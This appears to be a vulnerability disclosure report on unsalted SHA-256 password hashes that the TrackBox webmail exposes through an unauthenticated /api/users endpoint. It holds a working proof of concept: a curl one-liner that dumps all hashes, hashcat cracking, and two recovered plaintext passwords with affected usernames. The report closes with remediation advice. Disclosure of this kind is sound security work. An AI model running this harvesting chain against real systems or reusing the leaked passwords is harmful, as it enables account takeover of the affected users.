



# Description

Use of unsalted SHA-256 for password storage (CWE-916 / CWE-759) on the TrackBox webmail. Passwords are stored as raw, unsalted SHA-256 hashes, exposed in full by the unauthenticated `GET /api/users`. Two compounding flaws:

1. **No salt** — identical passwords produce identical hashes, so reuse is visible at a glance and rainbow tables apply.
2. **Fast hash** — SHA-256 runs at billions of guesses/second on commodity GPUs (vs ~hundreds for bcrypt/argon2).

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | `GET /api/users` (unauthenticated). | All password hashes dumped. |
| 2 | Group identical hashes. | Confirms no salt + reveals reuse clusters. |
| 3 | Crack offline (`hashcat -m 1400`) / direct SHA-256 lookup. | Plaintext passwords recovered. |

# PoC

**1. Pull every hash without authentication:**

```bash
curl -s http://webmail.<TARGET>/api/users | python3 -c "import sys,json;[print(u['password_hash']+':'+u['username']) for u in json.load(sys.stdin)['users']]" > hashes.txt
```



**2. Identical hashes prove no salt** — 14 users share one hash, 23 share another:

```
26c93e3b…516f  shared by 14 users (john.doe, jane.doe, bob.smith, …)
54de7f60…e345  shared by 23 users
```



**3. Recover plaintext (fast, unsalted):**

```bash
echo -n "Tr@c3d!7BxN#m9Kw2YpL" | sha256sum   # → 26c93e3b…516f  (14 accounts)
echo -n "Test123!"            | sha256sum     # → 54de7f60…e345  (23 accounts)
```



The cracked webmail passwords are the same passwords used on the main V.R.C platform (lateral compromise).

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | 37+ of 59 accounts crackable offline within minutes; reuse exposed. |
| Integrity | Bulk account takeover across webmail and the main platform. |
| Availability | None directly. |

Overall severity: **High** — chains with the unauthenticated `/api/users` exposure into a complete credential-harvesting pipeline.

# Remediation

1. **Replace SHA-256 with argon2id / bcrypt / scrypt** (slow, auto-salted).
2. **Invalidate all sessions and force a password reset** — all existing hashes are compromised.
3. **Restrict `/api/users`** so hashes are never returned to any client.

# Author
CHILL HUNT
